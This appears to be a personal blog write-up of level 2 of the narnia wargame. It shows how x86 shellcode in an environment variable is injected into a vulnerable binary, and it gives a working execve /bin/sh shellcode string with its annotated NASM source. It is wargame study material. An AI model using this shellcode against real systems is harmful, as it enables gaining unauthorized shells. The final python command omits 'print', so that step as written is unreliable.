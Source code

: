 Title: intruded.net, narnia: level 2
Date: 2011/09/19 22:43
Tags: shellcode, intruded.net, narnia, x86
Author: Ken Ko
Category: tutorials

So, the previous shellcode exercise was inspired by my failure to pass level 2 of narnia @ intruded.net. Continuing, I found answers online because I wanted to know what I was doing wrong. At first, I tried: 

<code class="bash">
export EGG="\x31\xc0\xb0\x1d\xcd\x80"
./level2
</code>

But that would always end in a segmentation fault. Rewrote the nasm file, created a binary, did the objdump -d again on the target this time. Same resulting hexcode. 

So, looking online (cheating, I know), I found that a particular solution is to do this:

<code class="bash">
export EGG=`python -c 'print "\x90" * 128 +  "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"'`
</code>
(from <a href="http://binholic.blogspot.com/2010/08/wargame-narnia-at-intrudednet-level-2.html">binary world</a>)

Now, that left me with the idea that this NOP slide is actually necessary. To test the idea:

<code class="bash">
export EGG=`python -c 'print "\x90" * 128 + "\x31\xc0\xb0\x1d\xcd\x80"'`
</code>

To my dismay, this worked! The level2 binary appeared to be in a pause() state--waiting for my interrupt. The difference here is that we use python to actually print out the shellcode; but still, the question of whether the NOP slide is necessary is left unanswered. To test, we try:

<code class="bash">
export EGG=`python -c 'print "\x31\xc0\xb0\x1d\xcd\x80"'`
</code>

This works--now we know the NOP slide is unnecessary. Now I want to verify if the python print is anything special, so I replace it with a perl -e call:

<code class="bash">
export EGG=`perl -e 'print "\x31\xc0\xb0\x1d\xcd\x80"'`
</code>

<em>Interesting</em>. The fundamental difference between my attempts at calling shellcode from the environment variable, and the working attempt, is the need to print out the hexcode. I didn't think this would be necessary, but I suppose it makes sense--something to add to my todo list of "things to understand". 

<em>My initial guess is that when we call ret(); from the binary, we need python or perl or bash or whatever to print out the shellcode so that the program knows what machine code to actually run. Would this then be run in the .data portion of the binary? Haven't thought about these things in months...</em>

Moving on to shellcode that will execute an actual shell.

<code class="bash">
export EGG=`python -c '"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42"'`
</code>

<strong>This is eventually what worked.</strong> 

The assembly that created this:

<code class="asm">
;
; file: execve.asm
; author: Ken Ko
;
; description: runs a /bin/sh shell using execve. turn off ASLR, thanks.
;
; compile:      nasm -felf execve.asm && ld -m elf_i386 -o execve execve.o
;

    SECTION .text           ; code section
    global main             ; make label available to linker as invoked by gcc
    global _start           ; make label available to linker w/ default entry
main:                       ; standard  gcc  entry point
_start:
    xor eax,eax             ; clean up registers
    xor ebx,ebx
    xor ecx,ecx
    xor edx,edx

    jmp short ender

    starter:

    pop ebx                 ; get address of string "/bin/sh#AAAABBBB"
    xor eax,eax             ; clean up registers

    mov byte [ebx+7 ], al   ; put a NULL in N
    mov [ebx+8 ], ebx       ; put address of the string in AAAA
    mov [ebx+12], eax       ; put 4 NULL in BBBB

    mov al, 11              ; syscall for execve
    lea ecx, [ebx+8]        ; load the address of the string location
    lea edx, [ebx+12]       ; load the address of the NULLs
    int 0x80                ; enter kernel mode

    xor eax,eax
    xor ebx,ebx
    mov byte al, 0x1
    int 0x80

    ender:
    call starter            ; put the address of the string on the stack
    db '/bin/sh#AAAABBBB'
</code>

I can go into detail later on, if I want. The comments should be enough, though.

<em>References</em>
<a href="http://asm.sourceforge.net/syscall.html">syscall list</a>
<a href="http://www.vividmachines.com/shellcode/shellcode.html#rt">vivid machines shellcode tutorial</a>
<a href="http://www.safemode.org/files/zillion/shellcode/doc/Writing_shellcode.html">safemode shellcode tutorial</a>

